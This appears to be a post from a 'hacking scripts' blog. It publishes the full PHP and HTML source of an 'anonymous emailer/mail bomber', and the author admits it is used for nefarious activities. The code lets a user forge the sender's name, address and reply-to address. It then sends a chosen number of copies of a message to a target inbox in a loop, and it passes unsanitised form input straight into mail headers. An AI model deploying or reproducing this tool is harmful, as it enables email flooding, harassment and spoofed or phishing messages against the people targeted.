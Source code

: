 ```yaml
---
id: 148
title: PHP Anonymous Emailer/Mail Bomber
author: admin
layout: post
guid: http://hackingscripts.com/?p=148
permalink: /php-anonymous-emailer/
categories:
  - PHP
tags:
  - Email bomber
  - PHP
---
```

Ok, so this isn&#8217;t really a hack script as such, but is also used for nefarious activities, and therefore is included here.

### PHP Anonymous Emailer/Mail Bomber Source Code

{% highlight php %}&lt;html&gt;
&lt;head&gt;
  &lt;title&gt;PHP Anonymous Emailer/Mail Bomber&lt;/title&gt;
&lt;body bgcolor="black" text="white"&gt;
&lt;form action="" method="post"&gt;
&lt;br&gt;&lt;font size="5" face="verdana"&gt;Sender&lt;/font&gt;&lt;br&gt;
&lt;br&gt;
   &lt;font size="2" face="verdana"&gt;&lt;b&gt;Name:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="from_name" type="text" value="" size="50"&gt;
    &lt;br&gt;&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Email Adress:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="from_mail" type="text" value="" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Reply Adress:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="email_return" type="text" value="" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
&lt;br&gt;
&lt;br&gt;
  &lt;/div&gt;
  &lt;font size="5" face="verdana"&gt;Recipient Details&lt;/font&gt;&lt;br&gt;&lt;br&gt;
  &lt;font size="2" face="verdana"&gt;&lt;b&gt;Recipient Email:&lt;/b&gt;&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="target" type="text" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Subject:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;input name="subject" type="text" value="" size="50"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;font size="2" face="verdana"&gt;&lt;b&gt;Message:&lt;/b&gt;&lt;/font&gt;&lt;br&gt;
    &lt;textarea name="message" cols="38" rows="5"&gt;&lt;/textarea&gt;
  &lt;br&gt;&lt;br&gt;&lt;font size="2" face="verdana"&gt;&lt;b&gt;Number Of Messages To Send&lt;/b&gt;&lt;/font&gt;&lt;p&gt;
    &lt;input name="messages" type="text" id="messages" value="" size="15"&gt;
&lt;br&gt;
&lt;br&gt;
    &lt;input type=submit&gt;
  &lt;/p&gt;
&lt;/form&gt;
   <?php
       $header="From:$from_name&lt;$from_mail&gt;\n";
       $header .= "Reply-To:$email_return\n";
       $message2 = stripcslashes($message);
       for($x=1;$x&lt;$messages+1;$x++){
        mail($target,$subject,$message2,$header);
       }
   ?>
{% endhighlight %}